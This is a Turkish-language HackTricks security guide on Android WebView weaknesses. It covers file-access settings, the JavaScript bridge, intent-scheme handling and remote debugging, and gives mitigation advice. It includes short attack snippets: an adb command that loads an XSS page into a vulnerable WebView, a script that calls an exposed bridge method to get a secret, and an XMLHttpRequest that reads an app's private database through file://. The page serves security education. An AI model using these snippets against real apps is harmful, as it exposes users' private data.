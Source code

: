 # Webview Saldırıları

{{#include ../../banners/hacktricks-training.md}}

## WebView Yapılandırmaları ve Güvenlik Rehberi

### WebView Güvenlik Açıkları Genel Bakış

Android geliştirmesinin kritik bir yönü, WebView'ların doğru bir şekilde yönetilmesidir. Bu rehber, WebView kullanımına ilişkin riskleri azaltmak için ana yapılandırmaları ve güvenlik uygulamalarını vurgulamaktadır.

![WebView Örneği](<../../images/image (1190).png>)

### **WebView'larda Dosya Erişimi**

Varsayılan olarak, WebView'lar dosya erişimine izin verir. Bu işlevsellik, Android API seviye 3 (Cupcake 1.5) itibarıyla mevcut olan `setAllowFileAccess()` metodu ile kontrol edilir. **android.permission.READ_EXTERNAL_STORAGE** iznine sahip uygulamalar, dosya URL şeması (`file://path/to/file`) kullanarak harici depolamadan dosyaları okuyabilir.

#### **Kaldırılan Özellikler: Evrensel ve URL'lerden Dosya Erişimi**

- **Dosya URL'lerinden Evrensel Erişim**: Bu kaldırılan özellik, dosya URL'lerinden çapraz kökenli istekleri mümkün kılmakta olup, potansiyel XSS saldırıları nedeniyle önemli bir güvenlik riski taşımaktadır. Varsayılan ayar, Android Jelly Bean ve daha yeni sürümleri hedefleyen uygulamalar için devre dışıdır (`false`).
- Bu ayarı kontrol etmek için `getAllowUniversalAccessFromFileURLs()` kullanın.
- Bu ayarı değiştirmek için `setAllowUniversalAccessFromFileURLs(boolean)` kullanın.
- **Dosya URL'lerinden Dosya Erişimi**: Bu özellik de kaldırılmıştır ve diğer dosya şeması URL'lerinden içerik erişimini kontrol etmiştir. Evrensel erişimde olduğu gibi, varsayılan ayarı güvenliği artırmak için devre dışıdır.
- Kontrol etmek için `getAllowFileAccessFromFileURLs()` ve ayarlamak için `setAllowFileAccessFromFileURLs(boolean)` kullanın.

#### **Güvenli Dosya Yükleme**

Dosya sistemi erişimini devre dışı bırakırken varlıklar ve kaynaklara erişim sağlamak için `setAllowFileAccess()` metodu kullanılır. Android R ve üzeri için varsayılan ayar `false`'dır.

- Kontrol etmek için `getAllowFileAccess()` kullanın.
- Etkinleştirmek veya devre dışı bırakmak için `setAllowFileAccess(boolean)` kullanın.

#### **WebViewAssetLoader**

**WebViewAssetLoader** sınıfı, yerel dosyaları yüklemek için modern bir yaklaşımdır. Yerel varlıklara ve kaynaklara erişim için http(s) URL'lerini kullanır ve Aynı-Köken politikası ile uyumlu olup, CORS yönetimini kolaylaştırır.

### loadUrl

Bu, bir webview'de rastgele URL'leri yüklemek için kullanılan yaygın bir işlevdir:
```java
webview.loadUrl("<url here>")
```
Elbette, potansiyel bir saldırganın bir uygulamanın yükleyeceği **URL'yi** asla kontrol edememesi gerekir.

### **JavaScript ve Intent Şeması Yönetimi**

- **JavaScript**: WebView'larda varsayılan olarak devre dışı bırakılmıştır, `setJavaScriptEnabled()` ile etkinleştirilebilir. JavaScript'in uygun korumalar olmadan etkinleştirilmesi güvenlik açıkları oluşturabileceğinden dikkatli olunmalıdır.
- **Intent Şeması**: WebView'lar `intent` şemasını işleyebilir, dikkatli yönetilmezse istismar durumlarına yol açabilir. Bir örnek güvenlik açığı, "support_url" adlı ifşa edilmiş bir WebView parametresinin, çapraz site betikleme (XSS) saldırılarını gerçekleştirmek için istismar edilebilmesidir.

![Vulnerable WebView](<../../images/image (1191).png>)

adb kullanarak istismar örneği:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Javascript Köprüsü

Android, **JavaScript**'in bir WebView içinde **yerel Android uygulama fonksiyonlarını** çağırmasını sağlayan bir özellik sunar. Bu, JavaScript'i yerel Android işlevleriyle entegre eden `addJavascriptInterface` yönteminin kullanılmasıyla gerçekleştirilir ve buna _WebView JavaScript köprüsü_ denir. Dikkatli olunması önerilir çünkü bu yöntem, WebView içindeki tüm sayaların kayıtlı JavaScript Arayüz nesnesine erişmesine izin verir ve bu arayüzler aracılığıyla hassas bilgilerin ifşa edilmesi durumunda bir güvenlik riski oluşturur.

- **Aşırı dikkat gereklidir** çünkü 4.2'nin altındaki Android sürümlerini hedefleyen uygulamalar için kötü niyetli JavaScript aracılığıyla uzaktan kod yürütme olanağı sağlayan bir güvenlik açığı bulunmaktadır.

#### JavaScript Köprüsü Uygulaması

- **JavaScript arayüzleri**, bir sınıf yönteminin JavaScript'e açıldığı örneklerde gösterildiği gibi, yerel kodla etkileşimde bulunabilir:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- JavaScript Köprüsü, WebView'a bir arayüz eklenerek etkinleştirilir:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```
- JavaScript aracılığıyla potansiyel istismar, örneğin, bir XSS saldırısı yoluyla, açığa çıkarılmış Java yöntemlerinin çağrılmasını sağlar:
```html
<script>
alert(javascriptBridge.getSecret())
</script>
```
- Riskleri azaltmak için, **JavaScript köprü kullanımını** APK ile birlikte gönderilen kodla sınırlayın ve uzaktan kaynaklardan JavaScript yüklenmesini engelleyin. Eski cihazlar için minimum API seviyesini 17 olarak ayarlayın.

### Yansıma Tabanlı Uzaktan Kod Çalıştırma (RCE)

- Belgelendirilmiş bir yöntem, belirli bir yükü çalıştırarak RCE elde etmeyi sağlar. Ancak, `@JavascriptInterface` notasyonu yetkisiz yöntem erişimini engelleyerek saldırı yüzeyini sınırlar.

### Uzaktan Hata Ayıklama

- **Uzaktan hata ayıklama**, **Chrome Geliştirici Araçları** ile mümkündür ve WebView içeriğinde etkileşim ve keyfi JavaScript çalıştırma imkanı sunar.

#### Uzaktan Hata Ayıklamayı Etkinleştirme

- Uzaktan hata ayıklama, bir uygulama içindeki tüm WebView'lar için etkinleştirilebilir:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Uygulamanın hata ayıklanabilir durumuna bağlı olarak hata ayıklamayı koşullu olarak etkinleştirmek için:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Rastgele dosyaları dışarı aktarma

- XMLHttpRequest kullanarak rastgele dosyaların dışarı aktarımını gösterir:
```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText)
}
}
xhr.open(
"GET",
"file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
true
)
xhr.send(null)
```
## Referanslar

- [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
- [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{{#include ../../banners/hacktricks-training.md}}
